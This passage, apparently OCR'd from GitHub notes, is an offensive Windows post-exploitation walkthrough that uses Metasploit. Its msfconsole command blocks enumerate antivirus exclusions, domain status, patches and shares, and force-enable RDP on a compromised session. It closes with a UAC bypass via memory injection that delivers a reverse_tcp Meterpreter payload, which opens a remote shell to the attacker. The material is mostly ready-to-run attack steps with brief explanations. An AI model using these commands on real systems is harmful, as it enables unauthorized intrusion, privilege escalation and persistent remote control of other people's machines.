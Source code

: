 > This module can be used to list out all the directories that are currently not looked after by the AV or the Win Defender.

```msfconsole
use post/windows/gather/enum_computers
show options
set SESSION <session-id>
run
```

> This will tell us whether the machine is a stand alone machine or a machine that is part of a domain.

```msfconsole
use post/windows/gather/enum_patches
show options
set SESSION <session-id>
run
```

> This will give us the patches that being installed in the machine. You can also do this by typing the `shell > systeminfo` command as it is a native windows command.

```msfconsole
use post/windows/gather/enum_shares
show options
set SESSION <session-id>
run
```

> This will lists all the shares within the machine.

```msfconsole
use post/windows/manage/enable_rdp
show options
set SESSION <session-id>
run
```

> This will tell us whether `RDP` is enabled on the machine or not. If it isn't enabled than it will enable it by it self.

#### Bypassing UAC Through Memory Injection:

***EVERYTHING DEMOSTARTED BELOW IS DONE AFTER THE FIRST FOOTHOLD HAS BE GAINED***

```
Ctrl + Z
y
use exploit/windows/local/bypassuac_injection
set SESSION <session-id>
set LPORT 4433
set TARGET windows\ x64
set PAYLOAD windows/x64/meterpreter/reverse_tcp
run
```

> This will bypass UAC using the injection method.
